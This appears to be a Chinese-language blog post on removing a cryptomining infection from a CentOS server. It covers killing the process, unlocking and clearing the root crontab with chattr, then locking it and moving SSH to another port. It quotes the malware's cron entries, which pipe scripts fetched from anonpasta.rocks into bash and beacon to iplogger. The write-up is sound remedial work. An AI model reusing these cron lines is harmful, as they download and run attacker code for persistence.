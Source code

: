 # 解决挖矿病毒导致的cpu100%

> 忘记病毒进程的截图了，解决后也找不到了，就说一下整个过程吧。姑且把对手称之为“病毒”吧。
>
> 以下是我个人的解决方法，如果大神觉得不妥恳请指正。

------

## 1、解决病毒



> - 首先top -c 查看某进程cpu使用逼近100%，说明此事不简单，默默记下PID。
>
> - 查看进程的工作路径<font color='#02C874'>` ll /proc/PID/exe`</font>，我的是在`/var/tmp/bbb`。
>
> - 可以选择删除改路径下的bbb文件夹，然后`kill -9 PID`。但通常这种注入都有定时，所以只是这样一会儿还会出现该进程继续霸占cpu。所以重点时得把定时给搞了。
>
> - 通过`crontab -e` 或 `vim /var/spool/cron/root`打开root用户的定时任务：
>
>   ```shell
>   */7 * * * * curl -A fczyo-cron/1.6 -sL $(curl -sL https://anonpasta.rocks/raw/nofoletove) | bash -s >/dev/null 2>&1
>   */10 * * * * curl -A fczyo-cron/1.6 -sL $(curl -sL https://anonpasta.rocks/raw/imusacubix) | bash -s >/dev/null 2>&1
>   */3 * * * * curl -A goodboy/1.5 -sL https://iplogger.org/1i9ve7
>   */2 * * * * curl -A fczyo-cron/1.6 -sL $(curl -sL https://anonpasta.rocks/raw/atucewakep) | bash -s >/dev/null 2>&1
>   ```
>
>   <font color='#02C874'>**按道理直接删除文件就行，但这样不太优雅，而且病毒会自动创建同名文件继续搞它的定时任务，所以我选择保留文件，只是把内容删除。**</font>
>
> - 可是，通常病毒会把该文件权限设置为“只读 -i”，“可追加 -a”，我们可以通过如下命令查看权限：
>
>   ```shell
>   lsattr /var/spool/cron/root
>   ```
>
>   结果：
>
>   ```shell
>   ----ia-------e- /var/spool/cron/root
>   ```
>
>   这样的话我们没法直接删除文件中的内容，需要先修改权限，如下：
>
>   ```shell
>   chattr -ia /var/spool/cron/root
>   ```
>
>   然后就可以`vim /var/spool/cron/root`将里面的内容删除然后:wq了。
>
> - <font color='#02C874'>**重点！！做完这些后，把权限再改为只读，并不允许追加，防止病毒继续追加内容进去，这样就白删了**</font>，所以执行：
>
>   ```shell
>   chattr +i /var/spool/cron/root
>   ```
>
>   至此，目前病毒就无法注册定时任务了，然后放心的kill掉那个进程。

------



## 2、防止再次被搞？



> - 修改远程连接密码（该方式简单）
>
> - 修改ssh端口（默认时22）：
>
>   > 这里有个问题，就是阿里云不让在网页控制台直接修改ssh的端口，如下：
>   >
>   > ![image-20200407114037444](PicSource/image-20200407114037444.png)
>   >
>   > 灰色不能修改。那就只能在服务器内部修改了。
>   >
>   > - 主要是修改`/etc/ssh/sshd_config `文件中的Port属性：
>   >
>   >   ![image-20200407114341886](PicSource/image-20200407114341886.png)
>   >
>   >   先添加一个自定义的不冲突的端口，如5656，然后保存。
>   >
>   >   <font color='#02C874'>**这里有个问题，可能遇到也是同上面修改定时任务文件`/var/spool/cron/root`时遇到的权限问题，再使用上面的那些方法修改权限后再修改文件，然后恢复原有权限即可。**</font>
>   >
>   >   
>   >
>   > - 重启ssh，我用的是centos，命令如下：
>   >
>   >   ```shell
>   >   systemctl restart sshd.service
>   >   ```
>   >
>   > - 然后修改我们的ssh客户端软件，让其使用刚才定义的5656端口进行连接，连接过后，再修改配置文件把22端口删掉，这样就无法通过22端口做ssh连接了。
>   >
>   > - 最后为了安全，配一配防火墙啥的。